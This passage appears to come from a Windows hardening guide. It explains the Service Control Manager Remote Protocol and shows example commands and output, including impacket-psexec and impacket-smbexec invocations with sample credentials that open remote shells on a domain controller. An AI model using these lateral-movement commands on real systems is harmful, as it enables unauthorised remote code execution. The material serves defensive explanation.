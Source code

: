The [\[MS-SCMR\]: Service Control Manager Remote Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-scmr/705b624a-13de-43cc-b8a2-99573da3635f)
with UUID [367ABB81-9844-35F1-AD32-98F038001003](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-scmr/e7a38186-cde2-40ad-90c7-650822bd6333)
is used by the built-in `services.msc` console and the `sc.exe` utility to remotely manage Windows services:

```shell
sc.exe \\dc01 query wuauserv
```

```txt
SERVICE_NAME: wuauserv
        TYPE               : 20  WIN32_SHARE_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

While the built-in Windows tools use the TCP/IP transport, hacktools commonly utilize
the [\\PIPE\\svcctl](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-scmr/e7a38186-cde2-40ad-90c7-650822bd6333)
SMB named pipe to execute code on remote systems:

```shell
impacket-psexec 'contoso/Admin:Pa$$w0rd@dc01'
```

```txt
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on dc01.....
[*] Found writable share ADMIN$
[*] Uploading file vQfMdUbQ.exe
[*] Opening SVCManager on dc01.....
[*] Creating service hOdT on dc01.....
[*] Starting service hOdT.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.2340]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

Multiple variants of this attack exist:

```shell
impacket-smbexec 'contoso/Admin:Pa$$w0rd@dc01'
```

```txt
Impacket v0.11.0 - Copyright 2023 Fortra

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>
```


[Admin Model]: https://petri.com/use-microsofts-active-directory-tier-administrative-model/
[System Center Configuration Manager]: https://learn.microsoft.com/en-us/mem/configmgr/core/understand/introduction
[System Center Operations Manager]: https://learn.microsoft.com/en-us/system-center/scom/get-started
[Network Location Awareness]: https://learn.microsoft.com/en-us/windows/win32/winsock/network-location-awareness-service-provider-nla--2
[Privileged Access Workstation]: https://learn.microsoft.com/en-us/security/privileged-access-workstations/privileged-access-devices
[Attack Surface Reduction]: https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/overview-attack-surface-reduction?view=o365-worldwide
[Remote Procedure Call]: https://learn.microsoft.com/en-us/windows/win32/rpc/rpc-start-page
[Active Directory Domain Services]: https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/virtual-dc/active-directory-domain-services-overview
[PowerShell]: https://learn.microsoft.com/en-us/powershell/
[Remote Server Administration Tools]: https://learn.microsoft.com/en-us/troubleshoot/windows-server/system-management-components/remote-server-administration-tools
[Link-Local Multicast Name Resolution]: https://www.rfc-editor.org/rfc/rfc4795.html
[MSS (Legacy)]: https://techcommunity.microsoft.com/t5/microsoft-security-baselines/the-mss-settings/ba-p/701055
[MS Security Guide]: https://learn.microsoft.com/en-us/deployoffice/security/security-baseline#ms-security-guide-administrative-template
